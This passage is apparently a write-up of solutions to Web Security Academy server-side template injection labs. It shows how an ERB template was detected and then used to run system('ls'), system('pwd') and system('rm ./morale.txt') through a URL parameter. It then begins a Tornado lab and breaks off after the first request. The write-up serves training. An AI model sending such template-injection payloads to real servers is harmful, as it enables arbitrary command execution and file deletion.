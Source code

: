 Solution:
So we've got a request:
```bash
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
```
And is it reflected in the response:
```bash
...
<div>
Unfortunately this product is out of stock
</div>
...
```
So we now need to identify the templating engine with burp intruder: (see serverSideTemplateInjectionShort.md)

So we now run the intruder and see that the response with `<%= 7*7 %>` payload returned `49`
We can therefore send the following req:
```bash
GET /?message=<%=+system("ls")+%> HTTP/2
```
In the response we see:
```bash
...
morale.txt
true
...
```
which means that `morale.txt` that we need to delete is in current dir

So we send another req:
```bash
GET /?message=<%=+system("pwd")+%> HTTP/2
```
in the response:
```bash
/home/carlos
```

So to remove the file we do:
```bash
GET /?message=<%=+system("rm ./morale.txt")+%> HTTP/2
```

### PRACTITIONER Lab: Basic server-side template injection (code context)
Lab's description:
This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

Solution:
In the lab there's an ability to change the author's display name. Here's the request that does that:
```bash
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0add004904b44737974520be00570043.web-security-academy.net
Cookie: session=LoSWdD6AbEu9H4qpnbirrCUODHJCuiNX
...

blog-post-author-display=user.name&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw
```
